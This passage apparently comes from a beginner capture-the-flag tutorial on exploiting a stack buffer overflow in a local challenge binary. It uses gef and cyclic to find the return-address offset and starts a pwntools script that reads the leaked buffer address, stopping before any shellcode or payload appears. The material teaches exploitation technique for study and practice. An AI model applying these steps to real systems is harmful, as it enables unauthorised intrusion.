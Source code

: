 ```
0x6261617a in ?? ()
gef➤  
gef➤  
```
You can see that our program crashed due to a segmentation fault, which means that it tried to access invalid memory . This happened because we overwrote the return address with some garbage which didn't point to any valid memory. We can see this value with `x/wx $eip`.
```
gef➤  x/wx $eip
0x6261617a:	Cannot access memory at address 0x6261617a
```
This `0x6261617a` is the value whose offset we need from our pattern. We can again us the cyclic utility for this:
```
➜  cyclic -l 0x6261617a          
100
```
Thus the offset actually is `100`. This is not 96 as we predicted because there is also a `push ebx` instruction in the disassemby of the function, which makes the space for the extra 4 bytes. Hence, one should take note that dynamic analysis is very important for exploitation.
Now we are ready , we can fill the buffer with shellcode, overwrite enough to reach the return address and overwrite it with the address we receive. However, we can't use a normal techinique like piping for payloads, since this address of the buffer changes on every execution. We need a way to interact with the binary dynamically. This is where pwntools really starts to seal the deal. It can do all that and so much more.

A simple script to just run the program normally and interact with it through the terminal would be:
```py
from pwn import *

p = process('./chall')

p.interactive()
```
We create a simple process object and interact with it(intuitive isn't it).On running this:
```
➜  python solve.py   
[+] Starting local process './chall': pid 10416
[*] Switching to interactive mode
What's this:0xffd252b8?
$ asdf
Hello, World!
[*] Process './chall' stopped with exit code 0 (pid 10416)
[*] Got EOF while reading in interactive
```
The $ sign is next to anywhere we enter input. We can use the `p.recv()` to receive input into a python varible:
```py
from pwn import *

p = process('./chall')
line = p.recv()
print "Got : ",line

p.interactive()
```
Run this:
```
➜  python solve.py
[+] Starting local process './chall': pid 10747
Got :  What's this:0xffcad1d8?

[*] Switching to interactive mode
$  
```